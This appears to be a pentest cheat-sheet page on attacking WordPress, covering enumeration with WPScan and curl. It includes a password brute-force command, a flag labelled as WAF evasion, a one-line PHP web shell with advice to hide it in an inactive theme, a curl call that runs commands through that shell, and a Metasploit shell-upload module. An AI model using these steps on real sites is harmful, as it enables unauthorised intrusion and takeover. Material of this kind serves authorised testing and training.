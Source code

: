 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# WordPress

## General Information

<details>

<summary>Directories</summary>

`/wp-admin` -> `/wp-login.php`

`/wp-content/plugins/`

`/wp-content/themes/`

</details>

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Automated Enumeration

### WPScan

> For vulnerability scanning get a token from [WPScan](https://wpscan.com/).

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong></code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

### Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/wpscanteam/wpscan" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
{% endtab %}
{% endtabs %}

## Manual Enumeration

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
\*Plugin version requires Directory listing to be enabled.
{% endhint %}

## RCE

### Browser

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

### Metasploit

```bash
msfconsole -q
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

{% tabs %}
{% tab title="Launch Metasploit" %}
```bash
msfconsole -q
```
{% endtab %}

{% tab title="Use MSF's module*" %}
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
\*Make sure to `set VHOST`!
{% endhint %}
